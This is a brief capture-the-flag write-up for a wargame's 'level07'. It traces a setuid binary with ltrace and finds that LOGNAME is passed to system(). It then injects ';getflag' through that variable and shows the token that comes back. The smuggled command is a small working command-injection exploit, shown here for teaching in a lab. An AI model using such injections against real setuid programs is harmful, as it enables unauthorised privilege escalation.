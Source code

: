 # level07 solution
Given setuid elf, we can run it with ltrace to get the idea of what it is doing:

    getegid()                                                  = 2007
    geteuid()                                                  = 2007
    setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)        = 0
    setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)        = 0
    getenv("LOGNAME")                                          = "level07"
    asprintf(0xbffff724, 0x8048688, 0xbfffff52, 0xb7e5ee55, 0xb7fed280) = 18
    system("/bin/echo level07 "level07

It seems to get string from environment variable LOGNAME and echo it via system run. We can modify this variable to inject our code:
    
    LOGNAME=";getflag" ./level07

Resulting output:

    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
